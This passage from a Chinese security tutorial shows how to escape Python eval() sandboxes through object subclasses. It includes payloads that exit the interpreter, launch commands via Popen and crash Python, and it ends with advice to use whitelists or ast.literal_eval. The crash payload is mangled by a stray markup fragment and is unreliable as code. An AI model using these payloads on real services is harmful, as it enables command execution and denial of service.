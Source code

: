 0x03 拒绝服务攻击1
=====

object的子类中有很多有趣的东西，执行以下代码查看：

```
[x.__name__ for x in ().__class__.__bases__[0].__subclasses__()]

```

这里我就不输出结果了，如果你执行的话，可以看到很多有趣的模块，比如file，zipimporter，Quitter等。经过测试，file的构造函数是被解释器沙箱隔离的。 简单的，或者直接使object暴露出的子类Quitter进行退出：

```
>>> eval("[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__
 == 'Quitter'][0](0)()", {'__builtins__':None})

C:/>

```

如果运气好，遇到对方程序中导入了`os`等敏感模块，那么Popen就可以用，并且绕过`__builins__`为空的限制，栗子如下：

```
>>> import subprocess
>>> eval("[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ == 'Popen'][0](['ping','-n','1','127.0.0.1'])",{'__builtins__':None})
<subprocess.Popen object at 0x0324FF70>
>>>
正在 Ping 127.0.0.1 具有 32 字节的数据:
来自 127.0.0.1 的回复: 字节=32 时间<1ms TTL=64
127.0.0.1 的 Ping 统计信息:
    数据包: 已发送 = 1，已接收 = 1，丢失 = 0 (0% 丢失)，
往返行程的估计时间(以毫秒为单位):
    最短 = 0ms，最长 = 0ms，平均 = 0ms
>>>

```

事实上，这种情况非常多，比如导入os模块，一般用来处理路径问题。所以说，遇到这种情况，完全可以列举大量的功能函数，来探测目标object的子类中是否含有一些危险的函数可以直接使用。

0x04 拒绝服务攻击2
=====

同样，我们甚至可以绕过`__builtins__`为None，造成一次拒绝服务攻击，Payload(来自老外blog)如下：

```
>>> eval('(lambda fc=(lambda n: [c 1="c" 2="in" 3="().__class__.__bases__[0" language="for"][/c].__subclasses__() if c.__name__ == n][0]):fc("function")(fc("code")(0,0,0,0,"KABOOM",(),(),(),"","",0,""),{})())()', {"__builtins__":None})

```

运行上面的代码，Python直接crash掉了，造成拒绝服务攻击。 原理是通过嵌套的lambda来构造一片代码段，即code对象。为这个code对象分配空的栈，并给出相应的代码字符串，这里是`KABOOM`，在空栈上执行代码，会出现crash。构造完成后，调用fc函数即可触发，其思路不可谓不淫荡。

0x05 总结
=====

从上面的内容我们可以看出，单单将内置模块置为空，是不够的，最好的机制是构造白名单，如果觉得比较麻烦，可以使用`ast.literal_eval`代替不安全的`eval`。

参考资料：
-----

【1】http://nedbatchelder.com/blog/201206/eval_really_is_dangerous.html

【2】http://drops.wooyun.org/web/7490

【3】http://stackoverflow.com/questions/3513292/python-make-eval-safe